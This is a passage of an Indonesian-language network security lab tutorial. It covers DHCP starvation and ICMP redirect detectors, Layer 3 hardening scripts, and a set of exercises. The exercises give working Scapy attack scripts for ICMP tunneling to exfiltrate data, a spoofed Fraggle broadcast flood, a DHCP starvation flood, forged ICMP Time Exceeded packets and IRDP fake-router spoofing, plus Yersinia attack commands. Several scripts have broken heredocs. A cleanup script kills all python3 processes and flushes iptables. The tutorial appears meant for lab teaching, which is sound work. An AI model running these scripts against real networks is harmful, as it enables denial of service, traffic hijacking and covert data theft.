class DHCPStarvationDetector:
    def __init__(self, interface="eth0"):
        self.interface = interface
        self.discover_count = 0
        self.mac_addresses = set()
        self.start_time = time.time()
        
    def detect(self):
        print("[*] Memonitor DHCP traffic...")
        
        def packet_handler(pkt):
            if DHCP in pkt and pkt[DHCP].options[0][1] == 1:  # DHCP Discover
                self.discover_count += 1
                
                # Catat MAC address
                if Ether in pkt:
                    mac = pkt[Ether].src
                    self.mac_addresses.add(mac)
                
                # Hitung rate
                elapsed = time.time() - self.start_time
                rate = self.discover_count / elapsed if elapsed > 0 else 0
                
                # Deteksi anomali
                if rate > 10:  # >10 discover/detik
                    print(f"\n[ALERT] DHCP Starvation terdeteksi!")
                    print(f"    Discover rate: {rate:.2f}/detik")
                    print(f"    Total Discover: {self.discover_count}")
                    print(f"    Unique MAC: {len(self.mac_addresses)}")
                    
                    if len(self.mac_addresses) > 50:
                        print("    [CRITICAL] Banyak MAC acak terdeteksi!")
                
                # Tampilkan status
                print(f"\r[*] Discover: {self.discover_count} | "
                      f"Rate: {rate:.2f}/s | "
                      f"MACs: {len(self.mac_addresses)}", end="")
        
        sniff(iface=self.interface, filter="udp and port 67", 
              prn=packet_handler, store=0)

if __name__ == "__main__":
    detector = DHCPStarvationDetector()
    detector.detect()
EOF

python3 detect_dhcp_starvation.py
```

### 9.3 Pencegahan di Level Jaringan

**Di Router/Gateway (192.168.1.1):**

1. **Disable IP Directed Broadcast**:
```bash
# Di Linux
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_broadcasts

# Atau permanent di /etc/sysctl.conf
net.ipv4.icmp_echo_ignore_broadcasts = 1
```

2. **Rate Limiting ICMP**:
```bash
# Dengan iptables
iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 1/second -j ACCEPT
iptables -A INPUT -p icmp --icmp-type echo-request -j DROP
```

3. **DHCP Snooping** (di switch managed):
```bash
# Konfigurasi Cisco
ip dhcp snooping
ip dhcp snooping vlan 1
interface eth0/1
 ip dhcp snooping trust  # Port ke DHCP server
```

4. **Filter ICMP Redirect**:
```bash
# Terima redirect hanya dari gateway terpercaya
echo 0 > /proc/sys/net/ipv4/conf/all/accept_redirects
echo 0 > /proc/sys/net/ipv4/conf/all/secure_redirects
```

### 9.4 Pencegahan di Level Host

**Di client (192.168.1.10):**
```bash
# /etc/sysctl.conf
# Matikan ICMP redirect
net.ipv4.conf.all.accept_redirects = 0
net.ipv4.conf.all.secure_redirects = 0
net.ipv4.conf.all.send_redirects = 0

# Ignore broadcast ping
net.ipv4.icmp_echo_ignore_broadcasts = 1

# Ignore bogus ICMP errors
net.ipv4.icmp_ignore_bogus_error_responses = 1
```

### 9.5 Script Pencegahan Lengkap

```bash
cat > layer3_hardening.sh << 'EOF'
#!/bin/bash
# Hardening Layer 3 untuk Linux

echo "[+] Menerapkan konfigurasi keamanan Layer 3..."

# Backup sysctl
cp /etc/sysctl.conf /etc/sysctl.conf.backup

# Apply settings
cat >> /etc/sysctl.conf << 'SYSCTL'

# Keamanan Layer 3
# Matikan ICMP redirect
net.ipv4.conf.all.accept_redirects = 0
net.ipv4.conf.default.accept_redirects = 0
net.ipv4.conf.all.secure_redirects = 0
net.ipv4.conf.default.secure_redirects = 0
net.ipv4.conf.all.send_redirects = 0
net.ipv4.conf.default.send_redirects = 0

# Proteksi dari smurf attack
net.ipv4.icmp_echo_ignore_broadcasts = 1

# Proteksi dari ICMP attacks
net.ipv4.icmp_ignore_bogus_error_responses = 1
net.ipv4.icmp_ratelimit = 100
net.ipv4.icmp_ratemask = 6168

# Proteksi IP spoofing
net.ipv4.conf.all.rp_filter = 1
net.ipv4.conf.default.rp_filter = 1

# Log martian packets
net.ipv4.conf.all.log_martians = 1
net.ipv4.conf.default.log_martians = 1

# Proteksi TCP/SYN flood
net.ipv4.tcp_syncookies = 1
SYSCTL

# Apply settings
sysctl -p

echo "[+] Firewall rules untuk ICMP"
# Allow essential ICMP, rate limit sisanya
iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 1/s -j ACCEPT
iptables -A INPUT -p icmp --icmp-type echo-request -j DROP

iptables -A INPUT -p icmp --icmp-type destination-unreachable -j ACCEPT
iptables -A INPUT -p icmp --icmp-type time-exceeded -j ACCEPT
iptables -A INPUT -p icmp --icmp-type parameter-problem -j ACCEPT
iptables -A INPUT -p icmp -j DROP

echo "[+] Selesai! Konfigurasi keamanan Layer 3 diterapkan."
EOF

chmod +x layer3_hardening.sh
./layer3_hardening.sh
```

---

## 10. Latihan Mandiri

### Latihan 1: ICMP Tunneling

```bash
cat > icmp_tunnel.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *
import base64

# ICMP Tunneling - menyembunyikan data di ICMP payload

def send_secret_data(data, dest):
    """Kirim data rahasia via ICMP"""
    encoded = base64.b64encode(data.encode())
    
    # Bagi menjadi chunk
    chunks = [encoded[i:i+100] for i in range(0, len(encoded), 100)]
    
    for i, chunk in enumerate(chunks):
        packet = IP(dst=dest)/ICMP(type=8)/chunk
        send(packet, verbose=0)
        print(f"[*] Mengirim chunk {i+1}/{len(chunks)}")
        time.sleep(0.1)

def receive_secret_data():
    """Terima data rahasia dari ICMP"""
    chunks = []
    
    def handle_pkt(pkt):
        if ICMP in pkt and pkt[ICMP].type == 8 and Raw in pkt:
            chunks.append(pkt[Raw].load)
            print(f"[+] Menerima chunk {len(chunks)}")
    
    print("[*] Listening for ICMP tunnels...")
    sniff(filter="icmp", prn=handle_pkt, count=5, timeout=30)
    
    if chunks:
        full_data = b''.join(chunks)
        decoded = base64.b64decode(full_data).decode()
        print(f"\n[+] Data diterima: {decoded}")
        return decoded

if __name__ == "__main__":
    import sys
    if len(sys.argv) > 2 and sys.argv[1] == "send":
        send_secret_data(sys.argv[2], "192.168.1.10")
    else:
        receive_secret_data()
EOF

# Jalankan receiver di target
# Jalankan sender di attacker
```

### Latihan 2: Fraggle Attack (UDP Echo)

```bash
cat > fraggle_attack.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *
# Fraggle attack = Smurf tapi pakai UDP (port 7 echo)

target = "192.168.1.10"
broadcast = "192.168.1.255"

print("[*] Fraggle Attack Simulation")
print(f"    Target: {target}")
print(f"    Broadcast: {broadcast}")

# Kirim UDP ke port echo (7) dengan source spoofed
for i in range(10):
    packet = IP(src=target, dst=broadcast)/UDP(sport=7, dport=7)/"Fraggle"
    send(packet, verbose=0)
    print(f"[{i+1}] Paket terkirim")
    time.sleep(0.5)
```

### Latihan 3: DHCP Starvation dengan MAC Acak

```bash
cat > dhcp_flood.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *
import random

def random_mac():
    return RandMAC()

def dhcp_flood(count=100):
    for i in range(count):
        mac = random_mac()
        
        # DHCP Discover
        pkt = (
            Ether(src=mac, dst="ff:ff:ff:ff:ff:ff") /
            IP(src="0.0.0.0", dst="255.255.255.255") /
            UDP(sport=68, dport=67) /
            BOOTP(chaddr=mac, xid=random.randint(1, 1000000)) /
            DHCP(options=[("message-type", "discover"), "end"])
        )
        
        sendp(pkt, verbose=0)
        print(f"[{i+1}] DHCP Discover dari {mac}")
        
        # Dalam serangan nyata, kita juga perlu handle Offer dan kirim Request
        time.sleep(0.05)

if __name__ == "__main__":
    dhcp_flood(50)
EOF

python3 dhcp_flood.py
```

### Latihan 4: ICMP Time Exceeded Attack

```bash
cat > icmp_time_exceeded.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *

# ICMP Time Exceeded bisa digunakan untuk memutus koneksi
# dengan mengirim false error ke sender

def send_false_time_exceeded(original_packet):
    """Kirim ICMP Time Exceeded palsu untuk packet tertentu"""
    
    # Ambil sebagian packet asli (sesuai aturan ICMP)
    original_part = bytes(original_packet)[:28]
    
    # Buat ICMP Time Exceeded
    icmp_error = (
        IP(src="192.168.1.1", dst=original_packet[IP].src) /
        ICMP(type=11, code=0) /  # TTL exceeded
        original_part
    )
    
    send(icmp_error, verbose=0)
    print(f"[*] ICMP Time Exceeded dikirim ke {original_packet[IP].src}")

# Sniff TCP SYN dan kirim false error
def syn_callback(pkt):
    if TCP in pkt and pkt[TCP].flags == "S":  # SYN packet
        send_false_time_exceeded(pkt)

print("[*] Monitoring TCP SYN...")
sniff(filter="tcp", prn=syn_callback, store=0)
EOF
```

### Latihan 5: ICMP Router Discovery Protocol (IRDP) Spoofing

```bash
cat > irdp_spoof.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *

# IRDP (ICMP Router Discovery Protocol) - Router Advertisement
# Type 9, Code 0

def send_fake_router_advertisement(target, fake_router):
    """Bohongi host dengan router advertisement palsu"""
    
    # Router Advertisement
    packet = (
        IP(src=fake_router, dst=target) /
        ICMP(type=9, code=0) /
        b"\x00\x00\x00\x00" +  # Reserved
        b"\x00\x00" +  # Lifetime (detik)
        b"\x00\x00" +  # Preference level
        b"\xc0\xa8\x01\x64"  # Router address (192.168.1.100)
    )
    
    send(packet, verbose=0)
    print(f"[*] Fake router advertisement sent to {target}")

# Broadcast ke semua host
def broadcast_fake_router(fake_router="192.168.1.100"):
    packet = (
        IP(src=fake_router, dst="255.255.255.255") /
        ICMP(type=9, code=0) /
        b"\x00\x00\x00\x00" /
        b"\x03\x84" /  # Lifetime 900 detik
        b"\x00\x00" /
        b"\xc0\xa8\x01\x64"
    )
    
    send(packet, verbose=0, loop=1, inter=30)  # Kirim setiap 30 detik

print("[*] IRDP Spoofing Attack")
broadcast_fake_router()
```

### Latihan 6: Deteksi ICMP Redirect dengan Python

```bash
cat > detect_icmp_redirect.py << 'EOF'
#!/usr/bin/env python3
from scapy.all import *
import time

class ICMPRedirectMonitor:
    def __init__(self):
        self.redirects = []
        
    def monitor(self):
        print("[*] Monitoring ICMP Redirect attacks...")
        
        def handle_pkt(pkt):
            if ICMP in pkt and pkt[ICMP].type == 5:  # Redirect
                src = pkt[IP].src
                dst = pkt[IP].dst
                gateway = pkt[ICMP].gw
                
                alert = {
                    'time': time.time(),
                    'src': src,
                    'dst': dst,
                    'gateway': gateway
                }
                
                self.redirects.append(alert)
                
                print(f"\n[ALERT] ICMP Redirect terdeteksi!")
                print(f"    Dari: {src}")
                print(f"    Ke: {dst}")
                print(f"    Gateway baru: {gateway}")
                
                # Analisis
                if src != "192.168.1.1":  # Bukan gateway asli
                    print(f"    [WARNING] Redirect dari non-gateway!")
                
                # Cek rate
                recent = [r for r in self.redirects 
                         if time.time() - r['time'] < 60]
                if len(recent) > 10:
                    print(f"    [CRITICAL] Flood redirect terdeteksi!")
        
        sniff(prn=handle_pkt, store=0)

if __name__ == "__main__":
    monitor = ICMPRedirectMonitor()
    monitor.monitor()
EOF

python3 detect_icmp_redirect.py
```

### Latihan 7: Cleanup Script

```bash
cat > cleanup_l3.sh << 'EOF'
#!/bin/bash
# Cleanup setelah praktik Layer 3

echo "[+] Membersihkan efek serangan..."

# Matikan proses
killall yersinia 2>/dev/null
killall python3 2>/dev/null

# Reset iptables
iptables -F
iptables -t nat -F
iptables -t mangle -F

# Reset sysctl ke default
sysctl -w net.ipv4.icmp_echo_ignore_broadcasts=0
sysctl -w net.ipv4.conf.all.accept_redirects=1
sysctl -w net.ipv4.conf.all.send_redirects=1

# Hapus file sementara
rm -f *.pyc *.pcap *.log

# Flush ARP cache
ip neigh flush all

echo "[+] Selesai. Jaringan kembali normal."
EOF

chmod +x cleanup_l3.sh
./cleanup_l3.sh
```

---

## Ringkasan Perintah Penting

| Fungsi | Perintah |
|--------|----------|
| **Scapy Basics** | `python3 -c "from scapy.all import *"` |
| Sniffing | `sniff(iface="eth0", count=10)` |
| Send packet | `send(IP(dst="target")/ICMP())` |
| **Yersinia DHCP** | `yersinia dhcp -attack 1 -interface eth0` |
| Yersinia GUI | `yersinia -G` |
| **Smurf Attack** | `python3 smurf_simulator.py` |
| **ICMP Redirect** | `echo 0 > /proc/sys/net/ipv4/conf/all/accept_redirects` |
| **DHCP Monitoring** | `dhcpdump -i eth0` |
| **ICMP Rate Limit** | `iptables -A INPUT -p icmp -m limit --limit 1/s -j ACCEPT` |
| **Disable Broadcast** | `sysctl -w net.ipv4.icmp_echo_ignore_broadcasts=1` |

---

## ⚠️ Ethical Reminder

1. **Izin Diperlukan**: Semua teknik di atas hanya untuk jaringan sendiri atau dengan izin tertulis.

2. **Konsekuensi Hukum**: Serangan DoS, DHCP starvation, dan man-in-the-middle adalah tindakan kriminal di banyak negara.

3. **Tujuan Edukasi**: Materi ini untuk memahami kerentanan dan cara melindungi jaringan.

4. **Reporting**: Jika menemukan kerentanan di jaringan publik, laporkan ke administrator, jangan dieksploitasi.

5. **Lab Environment**: Selalu gunakan lingkungan lab terisolasi untuk praktik.
